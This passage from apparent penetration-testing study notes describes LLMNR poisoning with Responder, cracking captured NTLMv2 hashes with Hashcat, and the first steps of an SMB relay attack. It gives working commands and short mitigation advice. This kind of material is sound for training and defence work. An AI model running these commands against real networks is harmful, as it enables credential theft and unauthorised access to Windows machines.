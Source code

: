     sudo responder -I eth0 -dwP
    # in Kali Linux
    ```

    * Event occurs in Windows

    * Obtain hashes and crack them using Hashcat

    ```shell
    hashcat -m 5600 ntlmhash.txt rockyou.txt
    #-m 5600 for NTLMv2
    #ntlmhash.txt contains the hashes
    #you can use rules with a wordlist
    ```

  * Mitigation:

    * Disable LLMNR and NBT-NS

    * Require Network Access Control

    * Use strong password policy

* SMB Relay:

  * Instead of cracking hashes gathered with Responder, we can relay those hashes to specific machines and gain access.

  * Requirements:

    * SMB signing must be disabled on target
    * Relayed user creds must be admin on machine

  * Steps:

    * Discover hosts with SMB signing disabled

    ```shell
    nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24
    #we need to note down machines with 'message signing enabled but not required'
    #-Pn if nmap states that the host is down, but it is not

    vim targets.txt
    #add target IPs
    ```

    * Edit Responder config - turn SMB and HTTP off

    ```shell
    vim /etc/responder/Responder.conf
    #turn SMB, HTTP off
    ```

    * Run Responder tool

    ```shell
   sudo responder -I eth0 -dwP
    # in Kali Linux
    ```
